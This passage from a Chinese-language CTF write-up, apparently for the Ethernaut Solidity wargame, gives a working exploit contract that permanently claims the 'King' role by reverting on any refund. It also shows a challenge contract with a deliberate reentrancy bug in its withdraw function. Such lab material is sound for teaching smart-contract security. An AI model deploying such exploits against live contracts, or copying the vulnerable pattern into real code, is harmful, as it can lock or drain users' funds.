         function _king() public view returns (address payable) {
            return king;
        }
    }
    ```

在更换king的时候，会将余额转到上一任king，只要选择不接受，即可不完成换任，这里可以使用revert。

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Exploit {
    constructor(address challenge) public payable {
        challenge.call{value:msg.value}("");
    }
    fallback() external {
        revert();
    }
}
```

只要转的钱比prize(1300889614901161 wei)多就可以了。

## Re-entrancy

??? question "题目合约"
    ```solidity
    // SPDX-License-Identifier: MIT
    pragma solidity ^0.6.12;

    import 'openzeppelin-contracts-06/math/SafeMath.sol';

    contract Reentrance {
    
        using SafeMath for uint256;
        mapping(address => uint) public balances;

        function donate(address _to) public payable {
            balances[_to] = balances[_to].add(msg.value);
        }

        function balanceOf(address _who) public view returns (uint balance) {
            return balances[_who];
        }

        function withdraw(uint _amount) public {
            if(balances[msg.sender] >= _amount) {
                (bool result,) = msg.sender.call{value:_amount}("");
                if(result) {
                    _amount;
                }
                balances[msg.sender] -= _amount;
            }
        }
